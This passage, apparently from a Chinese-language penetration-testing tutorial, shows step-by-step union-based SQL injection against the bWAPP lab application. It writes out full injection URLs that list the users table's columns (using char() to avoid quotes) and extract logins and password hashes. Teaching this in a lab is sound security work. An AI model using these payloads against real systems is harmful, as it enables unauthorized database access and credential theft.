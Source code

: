 1.  现在，我们可以继续仅从`users`表中检索列。我们可以使用以下 URL：`http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name=char(117,115,101,114,115)-- -`：

![](img/ab801668-4069-4176-ad37-e2c2795ca39d.png)

`Char()`允许 SQL 注入在 MySQL 中插入语句而不使用双引号（`""`）。

1.  使用`http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,login,3,4,5,6,7 from users-- -`，我们可以查看`users`表中的`email`列，如*步骤 14*中所述：

![](img/a9404840-c8c5-414b-9f68-c82e4538f851.png)

1.  要检索密码，请将 URL 调整为`http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,password,3,4,5,6,7 from users-- -`：

![](img/b8d3bb1a-b5fb-4e19-abd2-b089848d861d.png)

1.  现在，我们有密码的哈希值。我们可以使用在线或离线哈希标识符来确定哈希的类型：

![](img/14790ef2-d5ac-49cc-bf51-6156bbc9dcd4.png)
